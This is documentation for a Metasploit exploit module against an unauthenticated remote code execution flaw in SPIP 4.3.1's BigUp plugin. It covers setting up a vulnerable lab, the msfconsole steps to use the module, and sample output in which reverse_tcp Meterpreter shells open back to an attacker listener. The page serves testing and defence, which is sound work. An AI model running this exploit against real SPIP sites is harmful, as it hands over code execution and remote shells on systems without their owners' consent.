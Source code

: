 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP
versions up to and including 4.3.1, specifically in the BigUp plugin.
The vulnerability occurs due to improper handling of file uploads in the
`lister_fichiers_par_champs` function, which can be exploited by crafting a malicious multipart form request.
This allows an attacker to inject and execute arbitrary PHP code on the server.

### Non-Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Download and set up SPIP version 4.3.1.
2. Use the built-in PHP server to host the SPIP instance.

#### Commands to Set Up the Vulnerable Environment:

```bash
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
mkdir spip && mv spip-v4.3.1.zip spip
cd spip && unzip spip-v4.3.1.zip
php -S 0.0.0.0:8000
```

- **SPIP Access URL:** `http://localhost:8000`
- **SPIP Version:** 4.3.1

After starting the PHP server, SPIP will be accessible at `http://localhost:8000`.

To complete the installation:

1. Navigate to `http://localhost:8000/ecrire` to access the SPIP web installation panel.
2. Follow the on-screen instructions to complete the setup.

### Docker Setup

To replicate a vulnerable environment for testing, follow these steps:

1. Pull the vulnerable SPIP Docker image:

```bash
docker run --name casse-spip -p 8000:80 \
    -e SPIP_DB_SERVER=sqlite3 \
    -e SPIP_SITE_ADDRESS=http://localhost \
    -d ipeos/spip:4.3.1
```

2. Go to `http://localhost:8000` to access the SPIP application.

## Verification Steps

1. Set up a SPIP instance using the commands provided above.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_bigup_unauth_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

- **FORM_PAGE**: This option allows you to specify a custom page on the target SPIP installation that contains a form.
By default, the module will automatically check the `login`, `spip_pass`, and `contact` pages for forms,
but if you know of another page that contains a form, you can specify it here.
For example, if an article page contains a form, you can set this option like so:

```
set FORM_PAGE /spip.php?article1
```

This will instruct the module to look for the form data on `/spip.php?article1`.
If the specified page contains the vulnerable form, the module will proceed with the exploitation.
This option is particularly useful when the default pages (`login`, `spip_pass` and `contact`)
do not contain the form or are not accessible.

## Scenarios

### Successful Exploitation Against Local SPIP 4.3.1

**Setup**:

- Local SPIP instance with version 4.3.1.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module via `use exploit/multi/http/spip_bigup_unauth_rce`
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (`TARGETURI`, `SSL`, etc.).
5. Launch the exploit:
```bash
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (39927 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.17.0.2:54956) at 2024-09-08 05:53:39 +0200

meterpreter > sysinfo 
Computer    : d6c6866cac5a
OS          : Linux d6c6866cac5a 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.3.1
[+] SPIP version 4.3.1 is vulnerable.
[*] Bigup plugin version detected: 3.2.11
[+] The target appears to be vulnerable. Both the detected SPIP version (4.3.1) and bigup version (3.2.11) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: yt4d8ri/avF6LO/OwLA2O...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 172.17.0.2:55956) at 2024-09-08 05:54:43 +0200

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.10 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running using the manual setup for the exploit to work as expected.
